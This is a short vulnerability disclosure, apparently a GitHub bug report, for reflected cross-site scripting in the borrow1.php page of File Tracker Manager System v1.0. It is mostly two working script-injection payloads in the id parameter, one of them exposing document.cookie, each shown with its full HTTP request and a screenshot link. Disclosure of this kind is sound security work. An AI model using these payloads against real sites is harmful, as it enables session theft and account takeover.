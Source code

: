# File Tracker Manager System v1.0 has Cross-site scripting (reflected)

BUG_Author: godownio

Vulnerability File: /file_manager/normal/borrow1.php

Payload1:/file_manager/normal/borrow1.php?id=1"><script>alert(1111)</script>

```
GET /file_manager/normal/borrow1.php?id=1%22%3E%3Cscript%3Ealert(1111)%3C/script%3E HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=dtt8cginqeu540g2dnor7ulnt3
Connection: close
```

![image](https://github.com/godownio/bug_report/blob/main/vendors/pictures/xss1.png)

Payload2:/file_manager/normal/borrow1.php?id=1"><script>alert(document.cookie)</script>

```
GET /file_manager/normal/borrow1.php?id=1%22%3E%3Cscript%3Ealert(document.cookie)%3C/script%3E HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: PHPSESSID=dtt8cginqeu540g2dnor7ulnt3
Connection: close
```

![image](https://github.com/godownio/bug_report/blob/main/vendors/pictures/xss2.png)
